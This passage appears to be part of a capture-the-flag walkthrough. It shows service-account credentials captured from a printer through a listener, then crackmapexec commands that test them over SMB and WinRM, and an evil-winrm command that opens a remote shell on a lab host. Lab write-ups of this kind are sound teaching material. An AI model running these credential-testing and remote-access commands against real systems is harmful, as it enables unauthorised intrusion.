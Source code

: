 Clicking **Upload** triggers the printer to connect to our listener, sending stored credentials in the process:

![nc_with_printer.png](screenshots/nc_with_printer.png)

**Credentials obtained:**
- **User:** `svc-printer`
- **Password:** `1edFg43012!!`

---

### 3.1 Validating the Credentials

We verify the credentials over SMB:

```bash
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

![crackmapexeec_smb_svc_printer.png](screenshots/crackmapexeec_smb_svc_printer.png)

The account exists.

We check for WinRM access:

```bash
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

![crackmapexeec_winrm_svc_printer.png](screenshots/crackmapexeec_winrm_svc_printer.png)

---

### 3.2 WinRM Access

With valid credentials and WinRM open, we gain a shell:

```bash
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```
